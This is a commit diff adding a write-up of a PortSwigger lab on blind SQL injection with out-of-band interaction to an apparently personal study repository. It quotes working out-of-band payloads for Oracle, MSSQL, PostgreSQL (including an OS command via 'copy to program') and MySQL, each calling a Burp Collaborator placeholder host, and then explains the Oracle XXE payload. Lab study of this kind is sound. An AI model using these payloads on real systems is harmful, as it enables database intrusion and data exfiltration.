

Before and after one commit to horouuu/portswigger, a Markdown page: sql-injection/README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
add q16

````diff
--- a/sql-injection/README.md
+++ b/sql-injection/README.md
@@ -606,3 +606,61 @@ Sorting by response time, we can now find the 20 characters that make up the `ad
 > `2azn1z8799x671498qh5`
 
 Now we can log in and finish the lab!
+
+---
+
+## 16. Blind SQL injection with out-of-band interaction.
+<img src="./xxe-blind.png", width=400>
+
+### Description
+This was a **huge** difficulty leap.
+
+For this question, we are given a more "secure" application, in that:
+- It does not expose any query responses.
+- It does not expose any query errors.
+- It does not expose any time delays as the requests are performed asynchronously.
+However, it is still succeptible to SQL injection.
+
+### Solution
+For this, I had to refer to the cheatsheet prepared by PortSwigger for forced DNS lookup payloads:
+
+> **Oracle** (patched)
+> ```sql
+> SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://> BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
+> ```
+>
+> **Oracle** (unpatched, requires elevated privileges)
+> ```sql
+> SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
+> ```
+>
+> **Microsoft**
+> ```sql
+> exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
+> ```
+>
+> **PostgreSQL**
+> ```sql
+> copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
+> ```
+>
+> **MySQL** (windows-only)
+> ```sql
+> LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
+> SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
+> ```
+
+However, obviously using these payloads will solve the labs as-is. Therefore, I will explain the most complex one of the bunch (as the others are simply built-in host-lookup functions or program calls), which is the XXE attack on older Oracle DBs.
+
+> ```sql
+> SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
+> ```
+
+We can break this up into multiple parts. First, the wrapping query:
+> ```sql
+> SELECT EXTRACTVALUE(XMLTYPE(...), '/l') FROM dual
+> ```
+This query uses the `EXTRACTVALUE` command to force Oracle to evalute the XML expression contained inside. Other commands that accept XMLTYPE inputs may also work. `FROM dual` is required in Oracle when pulling from a "void" table.
+
+The `/l` path here is just a path to validate the syntax of the `EXTRACTVALUE` command. It means to extract the root element named `<l>`. However, this element will not necessarily exist after `XMLTYPE(...)` is parsed.
+
````
Also changed, not shown: other parts of sql-injection/README.md (+34 -0 lines), sql-injection/xxe-blind-collab.png (added), sql-injection/xxe-blind-gen-collab.png (added), sql-injection/xxe-blind.png (added).
